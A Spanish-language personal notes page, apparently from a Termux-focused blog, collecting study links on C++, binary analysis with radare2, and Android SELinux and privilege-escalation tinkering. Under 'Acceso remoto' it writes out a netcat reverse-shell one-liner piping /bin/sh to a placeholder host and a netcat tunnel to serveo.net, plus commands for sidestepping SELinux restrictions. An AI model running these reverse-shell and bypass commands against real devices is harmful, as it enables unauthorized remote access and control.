 # C++

- [AprenderC++](https://www.learncpp.com)
- [GestionDeMemoria]()
- [](https://en.cppreference.com)

**Modulos y funciones**

- 

# Analisis binario 

**Comceptos basico**

- **Pila**

- **Registro**

- **Buffer** 
    - [Como funciona la memoria](http://progra.usm.cl/apunte/c/memoria.html) 

Un buffer se define como un conjunto limitado de memoria asignada de forma contigua

**Funciones bulnerables**
printf
sprintf
strcat
strcpy
gets
- como se lleva acabo una llamada a funcion 


# [Radare2](https://book.rada.re/config/evars.html)

- **CLI**
    - `-d ` : 
- **Inter**
    - "iE"  : 
    - `bdi` : Punto de intrucsion
    - `pdda` : Comando para ver el ensamblado y el código fuente descompilado uno al lado del otro.
    - *Debug commands* 
        - `d `

**Plugings**

- `r2dec` : Descompilador 

A partir de android 11 `selinux` implementó varias restricciones, la buena noticia es que muchas de ellas se pueden 'bypassear' sin necesidad de ser root ni haciendo uso de adb xD. El mismo restringe las llamadas al sistema



**Listar paquetes saltando protexion ** 

```sh
<<(pm list packages -3 --user 0 2>&1 < /dev/null )
``` 
```
PATH=$PREFIX/bin && /system/bin/pm list packages --user 0
```


- Desde un usuario con uid2000 se  puede torgar permiso  
```
am start --user 0 -a android.settings.action.MANAGE_OVERLAY_PERMISSION -d "package:com.termux.x11"
```

# Investigar 

- Si se logras ejecutar los binarios de ``/vendor/bin`` siendo usuario shell es posible escalar privilegios hasta el usuario ``system``. Mas informacion [aqui](https://t.me/Ivam3by_Cinderella/13/9867) 

# Pendientes 
---
*Aprender*
[](https://rtx.meta.security/exploitation/2024/06/03/Android-Zygote-injection.html)
--- 

**Rever shell**

[Ejemplo](https://t.me/Ivam3by_Cinderella/13/9377)

--- 

**Acseso remoto**

```
rlwrap /system/bin/toybox nc serveo.net 65000
```

```
tali -n0 -f $TMPDIR/xD|/bin/sh -i 2>&1| nc <IP> <port> 1>$TMPDIR/xD  
```

---

**Hacer funcional `qemu-i386`  


```sh 
⊨ qemu-i386 ~/ch1.bin                                    ~/p/v/_posts
qemu-i386: Could not open '/lib/ld-linux.so.2': No such file or directory
```

**Referencia**

https://tldp.org/HOWTO/Glibc2-HOWTO-5.html

---


**Telegram**
https://t.me/Ivam3by_Cinderella/19953


> [!WARNING]
> Los vectores de ataque para ganar una shell de sistema siendo un usuario normal son muchísimos y más aún si la versión de tu Android es inferior a la versión 13.




> [!NOTE]
> Mucho del contenido aca vine de  la comunidad de ``@ivam3`` y sus subcriptores 


# Foros que me llamaron la atencion 
[bypassing-root-detection](https://medium.com/@aimardcr/bypassing-root-detection-the-universal-way-2625712172e5) 
[BypassSelinux](https://klecko.github.io/posts/selinux-bypasses/) 
[](https://nelenkov.blogspot.com/2015/06/password-storage-in-android-m.html?m=1)
*Binary*
[Buscar numeros magicos](https://www.garykessler.net/library/file_sigs.html)

{% if page.comments %}
<div id="disqus_thread"></div>
<script>
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://blok-termux.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>
{% endif %}


